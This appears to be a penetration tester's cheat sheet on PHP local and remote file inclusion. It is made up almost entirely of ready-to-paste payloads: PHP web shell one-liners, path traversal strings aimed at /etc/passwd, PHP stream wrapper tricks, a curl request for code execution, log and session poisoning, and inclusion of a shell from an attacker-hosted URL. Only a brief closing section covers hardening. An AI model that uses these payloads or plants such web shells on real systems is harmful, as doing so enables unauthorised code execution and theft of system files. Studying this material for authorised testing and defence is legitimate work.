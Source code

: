 # basics of file inclusion

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

php web shell

```
<?php system($_GET['yz']); ?>
%3C%3Fphp%20system%28%24%5FGET%5B%22yz%22%5D%29%3B%3F%3E

echo '<pre><?php system($_GET["yz"]);?></pre>' > shell.php
%0Aecho%20%27%3Cpre%3E%3C%3Fphp%20system%28%24%5FGET%5B%22yz%22%5D%29%3B%3F%3E%3C%2Fpre%3E%27%20%3E%20shell%2Ephp
```

world readable files

```
/etc/passwd
C:\Windows\boot.ini
```

copy/paste these

```
../../../../../../../../etc/passwd
/../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
/....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

php://filter/read=/resource=../../../../../../../../etc/passwd
php://filter/read=convert.base64-encode/resource=../../../../../../../../etc/passwd
php://filter/read=string.rot13/resource=../../../../../../../../etc/passwd

expect://id
```

more advanced copy/paste

```
echo '<?php system($_GET['yz']); ?>' | base64
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW3l6XSk7ID8+Cg==&yz=id

curl -s -X POST --data "<?php system('id'); ?>" "http://<TARGET>/index.php?language=php://input"

echo '<?php system($_GET['yz']); ?>' > yz.php
zip yz.zip yz.php
# upload
zip://yz.zip%23yz.php&yz=id
```

PHP versions before 5.5 are vulnerable to null byte injection to bypass file extensions

```
language=../../../../../../../../etc/passwd%00
```


# RCE through poisoning log files

```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ # on older servers

<?php system($_GET['cmd']); ?> # use as an user-agent
```

```
/etc/ssh/sshd_config
```

# RCE through php session files

```
/var/lib/php/sessions/sess_<PHPSESSID>
C:\Windows\Temp\sess_<PHPSESSID>
```

```
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```

# remote file inclusion

```
index.php?language=http://<LHOST>/yz.php&yz=id
index.php?language=ftp://<USER>:<PASS>@<LHOST>/yz.php&yz=id
```

# patching/hardening

```php
$lfi = "....././/..../..//filename";
while( substr_count($lfi, '../', 0)) {
 $lfi = str_replace('../', '', $lfi);
};
```

```php
basename($_GET['language'])
```

```
# php.ini
open_basedir = /var/www
display_errors = Off
allow_url_fopen = Off
allow_url_include = Off
disable_functions = system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source
```
